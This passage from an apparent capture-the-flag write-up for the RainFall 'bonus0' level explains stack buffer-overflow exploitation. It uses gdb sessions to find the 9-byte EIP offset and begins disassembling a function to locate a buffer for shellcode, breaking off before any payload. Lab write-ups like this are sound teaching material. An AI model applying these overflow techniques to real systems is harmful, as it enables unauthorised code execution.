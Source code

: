 ## 4. Exploitation

### 4.1. Find the offset of the EIP

As explained in the previous section, and after tests, we can overwrite the EIP with the second input.
For that, we need to overflow the first buffer, and then overflow the second buffer with a pattern to overwrite the EIP.
We generate a pattern with `Wiremask` and we run the program with the pattern as second input.
```bash
bonus0@RainFall:~$ gdb bonus0
(gdb) run
Starting program: /home/user/bonus0/bonus0 
 - 
123456789012345678901234567890
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
12345678901234567890Aa0Aa1Aa2Aa3Aa4Aa5Aa��� Aa0Aa1Aa2Aa3Aa4Aa5Aa���

Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
```
We can see that the EIP is overwritten with `0x41336141`. We can verify that:
```bash
(gdb) info registers eip
eip            0x41336141	0x41336141
```
`Wiremask` tells us that the offset is 9 bytes.

Now, we will find the address of the first input buffer to write the shellcode in it, and copy this address in the eip to execute the shellcode.

### 4.2. Find the address of the first input buffer

To find the address of the first input buffer, we will use the `gdb` debugger to disassemble the `p` function and find the address of the input buffer.
```bash
bonus0@RainFall:~$ gdb bonus0
(gdb) disas p
Dump of assembler code for function p:
   0x080484b4 <+0>:	push   %ebp
   0x080484b5 <+1>:	mov    %esp,%ebp
   0x080484b7 <+3>:	sub    $0x1018,%esp
   0x080484bd <+9>:	mov    0xc(%ebp),%eax
   0x080484c0 <+12>:	mov    %eax,(%esp)
   0x080484c3 <+15>:	call   0x80483b0 <puts@plt>
   0x080484c8 <+20>:	movl   $0x1000,0x8(%esp)
   0x080484d0 <+28>:	lea    -0x1008(%ebp),%eax
   0x080484d6 <+34>:	mov    %eax,0x4(%esp)
   0x080484da <+38>:	movl   $0x0,(%esp)
   0x080484e1 <+45>:	call   0x8048380 <read@plt>
   0x080484e6 <+50>:	movl   $0xa,0x4(%esp)
   0x080484ee <+58>:	lea    -0x1008(%ebp),%eax
   0x080484f4 <+64>:	mov    %eax,(%esp)
   0x080484f7 <+67>:	call   0x80483d0 <strchr@plt>
   0x080484fc <+72>:	movb   $0x0,(%eax)
   0x080484ff <+75>:	lea    -0x1008(%ebp),%eax
   0x08048505 <+81>:	movl   $0x14,0x8(%esp)
   0x0804850d <+89>:	mov    %eax,0x4(%esp)
   0x08048511 <+93>:	mov    0x8(%ebp),%eax
   0x08048514 <+96>:	mov    %eax,(%esp)
   0x08048517 <+99>:	call   0x80483f0 <strncpy@plt>
```